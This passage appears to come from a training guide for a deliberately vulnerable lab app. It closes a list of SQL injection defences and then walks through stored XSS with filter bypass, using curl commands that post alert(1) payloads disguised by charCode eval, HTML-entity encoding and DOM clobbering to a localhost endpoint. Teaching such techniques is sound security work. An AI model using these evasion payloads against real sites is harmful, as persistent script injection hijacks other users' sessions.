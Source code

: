 ### Advanced Prevention Measures
1. Implement query result randomization
2. Use database query firewalls
3. Implement sophisticated input validation with context-aware filtering
4. Use database activity monitoring (DAM)
5. Implement query execution time limits

---

## 2. Stored XSS with Filter Bypass

### Vulnerability Description
Advanced cross-site scripting attacks that persist in the application database and employ sophisticated filter evasion techniques.

### Impact
- Persistent payload execution for all users
- Advanced social engineering attacks
- Cryptocurrency mining injection
- Advanced phishing campaigns

### Advanced Solution Steps

#### Step 1: Identify Storage Mechanisms
**Objective:** Find where user input gets permanently stored

**Using curl to test comment storage:**
```bash
curl -X POST "http://localhost:5000/api/vuln/xss-advanced" \
  -H "Content-Type: application/json" \
  -d '{"comment":"<script>alert(1)</script>","name":"tester"}'
```

**Using Burp Suite:**
1. Intercept POST requests to comment/profile endpoints
2. Modify JSON/form data with test payloads
3. Use Repeater to test various input fields
4. Check if payloads persist across page reloads

#### Step 2: Advanced Filter Bypass Techniques
**Objective:** Evade sophisticated XSS filters and WAFs

**Using curl with advanced payloads:**
```bash
# WAF bypass techniques
curl -X POST "http://localhost:5000/api/vuln/xss-advanced" \
  -d 'comment=<img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,49,41))">'

# Filter bypass with encoding
curl -X POST "http://localhost:5000/api/vuln/xss-advanced" \
  -d 'comment=<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>'

# DOM clobbering
curl -X POST "http://localhost:5000/api/vuln/xss-advanced" \
  -d 'comment=<form id=test><input name=action><input name=method></form><script>test.action="javascript:alert(1)"</script>'
```
